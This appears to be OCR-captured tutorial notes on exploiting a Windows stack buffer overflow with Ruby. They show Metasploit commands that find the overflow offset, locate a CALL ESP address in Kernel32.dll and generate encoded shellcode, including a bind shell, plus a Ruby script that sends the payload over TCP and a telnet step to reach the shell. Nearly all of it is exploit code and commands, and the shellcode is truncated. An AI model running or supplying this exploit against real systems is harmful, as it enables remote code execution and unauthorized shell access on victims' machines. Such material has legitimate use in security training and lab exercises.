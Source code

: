 ### Exploitation with Ruby - Video

`./usr/share/metasploit-framework/tools/pattern_create.rb 100`:
```
Aa0AalAa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1AB2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A ←
```

`./usr/share/metasploit-framework/tools/pattern_offset.rb 35624134 100`:
```
[*] Exact match at offset 44 ←
```

`findjmp.exe Kernel32.dll ESP`:
```
Ox75218BD5		jmp ESP
Ox75224722		push ESP - ret
Ox752A2E2B		call ESP ←
```

`msfpayload windows/exec CMD=calc.exe R | msfencode -b "\x00" -t rb`:
```
buf =
"\xba\x83\x0b\x77\xfe\xdb\xca\xd9\x74\x24\xf4\x5d\x31\xc9"
"\x61\x33\x31\x55\x12\x83\xc5\x04\x03\xd6\x05\x95\x0b\x24"
"\xf1\xd0\xf4\xd4\x02\x83\x7d" # ... ←
```

`featherpad /root/Desktop/exploit.rb`:
```ruby
require 'socket'

ip, port = ARGV[0], ARGV[1]

preamble = "\x90"*44 # nops
return_address = "\x2b\x2e\x2a\x75" # CALL ESP instruction address (big-endian)
arguments_nop = "\x90"*10 # nops
calc_payload = 
"\xba\x83\x0b\x77\xfe\xdb\xca\xd9\x74\x24\xf4\x5d\x31\xc9" +
"\x61\x33\x31\x55\x12\x83\xc5\x04\x03\xd6\x05\x95\x0b\x24" +
"\xf1\xd0\xf4\xd4\x02\x83\x7d" # ...

exploit = preamble + return_address + arguments_nop + calc_payload

TCPSocket.open(ip, port){ |s| s.puts exploit }
```

`msfpayload windows/shell_bind_tcp LPORT=<TargetPort> R | msfencode -b "\x00" -t rb`:
```
buf =
"\xbd\xfd\x33\xf1\x2f\xd9\xf6\xd9\x74\x24\xf4\x5e\x2b\xc9"
"\xb1\x56\x31\x6e\x13\x03\x6e\x13\x83\xee\x01\xd1\x04\xd3"
"\x11\x9f\xe7\x2c\xe1\xc0\x6e" # ...
```

`telnet <TargetIP> <TargetPort>`.

---
